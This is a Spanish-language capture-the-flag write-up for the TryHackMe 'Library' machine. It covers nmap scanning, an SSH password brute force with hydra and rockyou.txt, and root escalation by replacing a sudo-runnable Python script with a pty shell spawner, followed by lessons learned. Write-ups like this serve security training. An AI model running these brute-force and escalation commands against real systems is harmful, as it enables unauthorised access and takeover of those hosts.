






TryHackMe
Easy
Linux
Hydra
SSH Brute Force
sudo Python
Library
Usuario encontrado en web; brute force SSH con hydra; escalada via sudo Python sobre script reemplazable.
cat4clysm
Herramientas utilizadas
nmap
hydra
netcat
Scanning
root@kali:~$
sudo nmap -sC -sV -p 22,80 10.10.254.215 -oN targeted
Puerto 80 - Enumeracion

Encontramos posible usuario: Meliodas

SSH Brute Force
root@kali:~$
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt 10.10.61.126 ssh -V -f -t 64root@kali:~$
ssh meliodas@10.10.61.126
cat user.txt
Escalada - Sudo Python
root@kali:~$
sudo -l
cat /home/meliodas/bak.py
No podemos editar bak.py pero si borrarlo y recrearlo:
root@kali:~$
rm bak.py
echo "import pty; pty.spawn('/bin/bash')" > bak.py
sudo /usr/bin/python /home/meliodas/bak.py
cat /root/root.txt
Lecciones aprendidas
- La informacion en el codigo fuente web (autores, usuarios) puede ser usada para SSH brute force.
- sudo con NOPASSWD en Python permite escalada trivial si podemos modificar el script ejecutado.
- Un archivo no editable pero eliminable puede reemplazarse con contenido malicioso.